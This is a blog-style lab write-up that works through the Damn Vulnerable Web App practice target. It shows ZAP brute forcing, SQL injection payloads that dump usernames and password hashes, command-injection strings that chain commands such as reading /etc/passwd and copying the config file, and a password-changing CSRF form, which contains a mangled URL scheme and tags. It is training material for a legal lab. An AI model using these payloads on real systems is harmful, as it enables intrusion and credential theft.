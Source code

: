 ```yaml
---
layout: post
title: DVWA - Part 1
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, SQL injection, Brute Force, CSRF, command injection]

---
```


Damn Vulnerable Web App [DVWA](http://www.dvwa.co.uk/)  is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment. It is perfect to practice some of the most common web vulnerabilities, with various levels of difficulty.

![]({{ site.baseurl }}/images/DVWA-1.jpeg)

For some challenges we are going to use OWASP ZAP, so we have to configure the proxy. In OWASP ZAP, we need to go to Tools>Options>Local Proxies and make sure that the address is localhost and the port 8080. On the hand, there many ways to configure the proxy settings in Firefox, for example: using the Firefox settings and changing the proxy to manual using localhost 8080 or using a Firefox extension. 

Now, it is time to scan for vulnerabilities.

## BRUTE FORCE

The main goal is to get the login name and password. Here we can use combinations of words, numbers and special symbols and dictionary files.

LOW - MEDIUM - HIGH:

Using a wordlist. To do this, we try to log in as admin with any password. It will give us an error message like user/password is not correct, but if we use the Fuzz option we can do a dictionary brute force. 

![]({{ site.baseurl }}/images/DVWA-2.jpeg)

We add a payload (a wordlist) and, in the options section, we change the "delay when fuzzing" to 100ms.

Once the Fuzzer has finished, we will have to sort the Size Response Body from highest to lowest (also interesting to see the State column) to see which is the correct password. In this case the pass is password.

![]({{ site.baseurl }}/images/DVWA-3.jpeg)

## SQL INJECTION

In a SQL Injection (SQLi) we can execute malicious SQL statements that control the database server.

LOW - MEDIUM - HIGH:

LOW - HIGH: We can repeat the same steps as in Brute Force with some SQL wordlist or we can use some injections like: 

- ' OR '1' = '1
- ' OR 0 = 0# 
- '=0# 

![]({{ site.baseurl }}/images/DVWA-4.jpeg)

To get the passwords, we have followed these SQL injections trying to guess the tables and columns that the database has.

- 1' or 1=1 union select table_schema, table_name from information_schema.tables# ->
- 1' or 1=1 union select null, table_columns from information_schema.columns=users# ->
- 1' or 1=1 union select  user, password from users#

Then, we can crack the hashes with this [tool](https://crackstation.net/).

MEDIUM: We have to select the user ID, so we can modify the request manually using SQL injections.

- 1 or 1=1 
- 1 or 1=1 union select table_schema, table_name from information_schema.tables# ->
- 1 or 1=1 union select null, table_columns from information_schema.columns=users# ->
- 1 or 1=1 union select  user, password from users#

## COMMAND INJECTION

Sending operating system commands in an empty field.

LOW - MEDIUM - HIGH:

LOW: 
- 127.0.0.1; ls
- 127.0.0.1; ls ../../config
- 127.0.0.1; cp ../../config/config.inc.php ../../a.php
- 127.0.0.1; cat /etc/passwd | grep root 
- 127.0.0.1;ifconfig
- 127.0.0.1;ifconfig /all

MEDIUM-HIGH:

![]({{ site.baseurl }}/images/DVWA-5.jpeg)

Using the above commands, we change ';' to '|'.

## CSRF

Cross Site Request Forgery (CSRF) is an attack that forces an end user to perform unwanted actions on a web application in which they are currently authenticated.

LOW - MEDIUM - HIGH:

Using part of the HTML code, we can create our own.

```
<form action="html://192.0.0.1/dvwa/vulnerabilities/csrf/?" method="GET">
    <h1>Click on, pleasee>/h1>
    <input type="hidden" AUTOCOMPLETE="off" name="password_name" value="pass123"> <br/>
    <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="pass123"> <br/>
    <input type="submit" name="Change" value="Change"> <br/>
    // Only for HIGH level: <input type="hidden" 
    // name="user_token" value="1778659551266655449ddv4499f"/>
    </form>
```



